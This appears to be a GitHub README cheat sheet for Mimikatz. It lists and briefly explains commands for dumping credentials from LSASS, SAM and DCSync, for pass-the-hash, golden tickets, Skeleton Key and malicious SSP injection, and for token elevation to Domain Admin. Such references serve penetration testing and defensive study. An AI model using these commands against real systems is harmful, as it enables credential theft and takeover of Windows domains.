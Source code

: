 # --------------MIMIKATZ--------------

# ![mimikatz](./image/image.png)

## [Unofficial documentation](https://adsecurity.org/?page_id=1821)
### Available Credential in OS: 
![memory Store in MS-OS](./image/chart.png)
### Most useable Commands:

```privilege::debug ```: checking mimikatz status

```Invoke-Mimikatz -DumpCreds```: Dump all credential from the memory LSASS


# Most Popular Mimikatz Commands:

#### Here are just some of the most popular Mimikatz command and related functionality.

```CRYPTO::Certificates``` – list/export certificates

```KERBEROS::Golden``` – create golden/silver/trust tickets

```KERBEROS::List``` – List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.

```KERBEROS::PTT``` – pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).

```LSADUMP::DCSync```– ask a DC to synchronize an object (get password data for account). No need to run code on DC.

```LSADUMP::LSA``` – Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”

```LSADUMP::SAM``` – get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.

```LSADUMP::Trust``` – Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).

```MISC::AddSid``` – Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.

```MISC::MemSSP``` – Inject a malicious Windows SSP to log locally authenticated credentials.

```MISC::Skeleton``` – Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.

```PRIVILEGE::Debug``` – get debug rights (this or Local System rights is required for many Mimikatz commands).

```SEKURLSA::Ekeys``` – list Kerberos encryption keys
```SEKURLSA::Kerberos``` – List Kerberos credentials for all authenticated users (including services and computer account)

```SEKURLSA::Krbtgt``` – get Domain Kerberos service account (KRBTGT)password data

```SEKURLSA::LogonPasswords``` – lists all available provider credentials. This usually shows recently logged on user and computer credentials.

```SEKURLSA::Pth``` – Pass- theHash and Over-Pass-the-Hash

```SEKURLSA::Tickets``` – Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account .

```kerberos::list```, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).

```TOKEN::List``` – list all tokens of the system

```TOKEN::Elevate``` – impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box

```TOKEN::Elevate /domainadmin ```– impersonate a token with Domain Admin credentials.